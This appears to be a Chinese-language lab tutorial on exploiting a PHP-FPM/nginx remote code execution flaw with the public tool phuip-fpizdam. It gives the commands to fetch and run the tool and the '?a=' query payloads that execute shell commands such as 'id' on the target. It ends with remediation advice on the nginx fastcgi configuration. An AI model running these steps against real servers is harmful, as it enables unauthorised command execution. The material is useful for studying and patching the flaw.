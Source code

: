 ## 下载利用GitHub上的利用代码:
(1)  可以直接使用go来下载(前提你的机器装了git):
```
go get github.com/neex/phuip-fpizdam
```
示例:
![图片](https://upload.cc/i1/2019/11/01/dWxNfn.jpg)

然后你会在go工作目录(如果安装go后,没有指定工作目录,默认会在系统用户目录下有个go文件夹)中的bin目录下找到编译好的程序,可以直接利用

![图片](https://upload.cc/i1/2019/11/01/LwI075.jpg)

## 开始利用:
(1)  来到编译好的程序所在目录,在此目录下运行cmd,输入:
```
phuip-fpizdam.exe http://172.26.1.155:8080/index.php
```
错误示例:
![图片](https://upload.cc/i1/2019/11/01/GzF7Af.jpg)

正确示例:

![图片](https://upload.cc/i1/2019/11/01/7xqbHn.jpg)

(2)  打开浏览器访问漏洞所在页面,在后面添加
```
?a=/bin/sh+-c+'which+which'&
```
示例:(访问第一次没反应,我们刷新页面就会出现命令执行结果)
![图片](https://upload.cc/i1/2019/11/01/5C72YA.jpg)

出现上述页面,验证我们编译的程序没有问题

(3)  我们直接访问[http://172.26.1.155:8080/?a=id](http://172.26.1.155:8080/?a=id) 切换参数a的值即可执行不同的命令

![图片](https://upload.cc/i1/2019/11/01/vZ8BJo.jpg)

想继续研究的可以参考这个文章:

[http://blog.leanote.com/post/snowming/9da184ef24bd](http://blog.leanote.com/post/snowming/9da184ef24bd)

# 修复建议:
(1)  修改nginx配置文件中fastcgi_split_path_info的正则表达式,不允许.php之后传入不可显字符

(2)  暂停使用 nginx+php-fpm 服务

根据实际生产环境的业务需求，将以下配置删除

```
fastcgi_split_path_info ^(.+?\.php)(/.*)$;

fastcgi_param PATH_INFO  $fastcgi_path_info;
```
# 参考链接:
[https://studygolang.com/articles/24247?fr=sidebar](https://studygolang.com/articles/24247?fr=sidebar)
